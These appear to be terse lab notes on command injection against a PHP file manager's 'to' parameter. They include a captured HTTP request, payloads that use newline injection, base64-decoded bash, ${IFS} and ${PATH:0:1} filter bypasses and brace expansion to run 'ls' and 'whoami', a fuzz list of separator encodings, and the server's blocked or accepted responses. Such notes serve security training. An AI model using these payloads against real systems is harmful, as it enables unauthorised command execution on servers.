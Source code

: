 GET /index.php?to=tmp&from=605311066.txt&finish=1&move=1 HTTP/1.1
Host: 94.237.62.195:42835
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.62.195:42835/index.php?to=tmp&from=605311066.txt
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: filemanager=62nrkg2r8iobluh3n2d2105u6l
Connection: close

to=tmp%0abash<<<$(base64${IFS}-d<<<ZWNobyBtYmFwcGU=)

Malicious request denied!

to=tmp&+whoami

Malicious request denied!

to=tmp%0a&{ls,-la}${IFS}${PATH:0:1}home

Malicious request denied!

to=tmp&

Moved from /var/www/html/files/877915113.txt to /var/www/html/files/tmp&

to=%26+echo+mbappe

Malicious request denied!

to=tmp%26mbappe


to=tmp%3b
to=tmp+%3b
to=tmp%26
to=tmp%26%26
to=tmp+%26
to=tmp+%26%26
to=tmp%7c
to=tmp%7c%7c
to=tmp+%7c
to=tmp+%7c%7c

GET /index.php?to=tmp§%26§&from=51459716.txt&finish=1&move=1 HTTP/1.1

%26
Error while moving: mv: cannot stat

%26%26


%3b
+%3b
+%26
+%26%26
%7c
%7c%7c
+%7c
+%7c%7c
Malicious request detected
